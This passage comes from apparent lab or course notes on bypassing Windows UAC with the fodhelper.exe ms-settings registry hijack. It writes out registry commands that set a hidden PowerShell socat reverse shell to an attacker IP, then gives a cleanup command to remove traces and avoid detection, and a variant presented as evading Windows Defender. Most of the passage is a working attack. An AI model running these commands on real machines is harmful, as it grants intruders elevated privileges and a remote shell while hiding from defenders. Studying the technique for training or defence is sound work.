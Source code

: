 ```C
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
```

Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.

At the same command prompt window execute `fodhelper.exe` then back at the attacker machine check your netcat:

![[Bypassing UAC-12.png]]

### Clearing our Tracks
---
As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```C
reg delete HKCU\Software\Classes\ms-settings\ /f
```

## But Wait - There is MS Defender - Fodhelper exploit won't work
---
Doing the same exploit again: Just as you change the `(default)` value in `HKCU\Software\Classes\ms-settings\Shell\Open\command` to insert your reverse shell command, a Windows Defender notification will pop up:

![[Bypassing UAC-13.png]]

Clicking the notification:

![[Bypassing UAC-14.png|450]]

But the good thing is with a slight modification it will work:

```C
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
```
